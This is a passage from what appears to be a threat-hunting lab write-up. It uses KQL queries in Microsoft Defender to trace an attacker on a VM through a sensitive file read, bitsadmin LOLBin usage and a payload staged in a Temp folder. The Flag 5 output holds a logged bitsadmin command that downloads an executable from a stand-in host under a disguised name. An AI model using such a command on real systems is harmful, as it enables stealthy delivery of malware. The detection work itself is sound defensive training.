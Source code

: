 **KQL Query:**
```
DeviceEvents
| where DeviceName contains "michaelvm"
| where Timestamp between (ago(30d) .. now())
| where ActionType contains "SensitiveFileRead"
| order by Timestamp desc
```
**Output:** `2025-06-16T06:12:28.2856483Z`  
**Finding:** The last access to “QuarterlyCryptoHoldings.docx” occurred at the specified timestamp, indicating pre-exfiltration activity.
<img width="1029" height="229" alt="Pasted Graphic 6" src="https://github.com/user-attachments/assets/511a6a10-075b-46ec-b940-311fdd51ed8c" />

---

### Flag 5: LOLBin Usage - bitsadmin
**Objective:** Detect stealth file downloads via native tools.  
**What to Hunt:** Use of `bitsadmin.exe` for file transfers.  
**TTP:** Living-Off-the-Land Binaries (LOLBins) for downloading malicious tools.  
**Why It Matters:** LOLBin usage allows attackers to blend into normal system activity, evading detection.  

**KQL Query:**
```
DeviceProcessEvents
| where DeviceName == "michaelvm"
| where Timestamp between (ago(30d) .. now())
| where AccountName contains "mich34l_id"
| where ProcessCommandLine contains "bitsadmin.exe"
```
**Output:** `"bitsadmin.exe" /transfer job1 https://example.com/crypto_toolkit.exe C:\Users\MICH34~1\AppData\Local\Temp\market_sync.exe`  
**Finding:** The command shows `bitsadmin.exe` downloading a malicious file, confirming stealth tool deployment.
<img width="1593" height="146" alt="465682981-90c04309-ae3c-4937-a477-50bd1f00f80f" src="https://github.com/user-attachments/assets/3d749896-7f5b-4ae3-bce4-a556487af525" />

---

### Flag 6: Suspicious Payload Deployment
**Objective:** Identify non-baseline executable payloads.  
**What to Hunt:** New executables in Temp or uncommon locations with deceptive names.  
**TTP:** Dropping malicious payloads in temporary folders for staging.  
**Why It Matters:** Payload deployment indicates the attacker’s preparation for further malicious actions.  

**KQL Query:**
```
DeviceFileEvents
| where Timestamp between (ago(30d) .. now())
| where DeviceName == "michaelvm"
| where FolderPath has "Temp"
| where FileName contains ".exe"
| project Timestamp, DeviceName, ActionType, FileName, FolderPath
| sort by Timestamp asc
```
**Output:** `ledger_viewer.exe`  
**Finding:** The executable “ledger_viewer.exe” in the Temp folder suggests a staged malicious payload.
<img width="1177" height="90" alt="465683004-9e786a76-ae6e-4b73-b779-2b85d688c6c0" src="https://github.com/user-attachments/assets/287d8a23-b8ad-4658-8d90-0d353eca1bee" />

---